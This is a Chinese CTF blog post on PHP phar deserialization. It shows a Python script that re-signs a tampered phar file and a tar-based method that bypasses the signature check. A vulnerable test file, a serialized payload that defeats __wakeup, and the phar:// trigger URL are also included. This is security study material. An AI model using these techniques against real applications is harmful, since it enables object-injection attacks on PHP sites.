 ```yaml
---
title: "Phar 签名的修复与绕过"
date: 2022-08-20T20:31:36+08:00
lastmod: 2022-08-20T20:31:36+08:00
draft: false
author: "X1r0z"

tags: ['php', 'ctf']
categories: ['web']

hiddenFromHomePage: false
hiddenFromSearch: false

toc:
  enable: true
math:
  enable: false
lightgallery: false
---
```


phar 反序列化有时候会和 `__wakeup` 的绕过 (CVE-2016-7124) 结合在一起, 直接修改 phar 原始文件的话会报错

原因是 phar 文件包含签名, 解析时会检测文件是否被篡改

做题碰到很多次了, 在这里记录一下

<!--more-->

## 修复签名

phar 签名的相关信息

[https://www.php.net/manual/zh/phar.fileformat.signature.php](https://www.php.net/manual/zh/phar.fileformat.signature.php)

![20220820200827](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220820200827.png)

签名支持 MD5, SHA1, SHA256, SHA512, OpenSSL 算法, 默认是 SHA1

其中末尾的4个字节是固定的, 表示该文件存在签名

倒数第8~4个字节表示文件使用的签名算法

倒数8个字节往前就是签名的二进制值, 对文件开头到声明签名部分以前的内容进行计算, 长度视算法类型而定

以 SHA1 为例

在修改了 phar 数据后, 我们需要更改的就是这部分 (20字节长度) 的内容

![20220820201619](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220820201619.png)

Python 脚本

```python
import hashlib

with open('phar.phar', 'rb') as f:
    content = f.read()

text = content[:-28]
end = content[-8:]
sig = hashlib.sha1(text).digest()

with open('phar_new.phar', 'wb+') as f:
    f.write(text + sig + end)

```

注意计算 SHA1 的时候要使用 `.digest()` 而不是 `.hexdigest()`, 因为文件本身保存的签名是二进制格式的

其它签名算法同理, 就是切片的长度不一样 (不过一般也不怎么用到)

## 使用 tar 绕过签名

[https://www.anquanke.com/post/id/240007](https://www.anquanke.com/post/id/240007)

在看这篇文章的时候发现 phar 协议对 tar 的处理跟 gzip b2zip 这些不太一样

对 gzip b2zip 处理时, PHP 会将其解压缩, 然后解析里面的 phar 文件

而对 tar 处理时, PHP 会检测压缩包中是否存在 `.phar/.metadata`, 存在的话就会直接将 .metadata 里的内容**直接进行反序列化**

测试代码

```php
<?php

class A{
    public $text = 'test';
    function __destruct(){
        echo $this->text;
    }

    function __wakeup(){
        $this->text = 'fail';
    }
}

file_get_contents($_GET['a']);

?>
```

本地创建 .phar 文件夹和 .metadata 文件

```bash
exp10it@LAPTOP-TBAF1QQG:~/WWW/.phar$ ls -a
.metadata
exp10it@LAPTOP-TBAF1QQG:~/WWW/.phar$ cat .metadata
O:1:"A":2:{s:4:"text";s:7:"success";}
```

tar 压缩, **必须是 Linux 环境**

```bash
tar -cf phar.tar .phar/
```

访问 `index.php?a=phar://phar.tar`

![20220820204322](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220820204322.png)

这种方法直接扔掉了 phar 的签名, 修改数据时根本不用担心签名的问题, 也就不存在 "修复签名" 的说法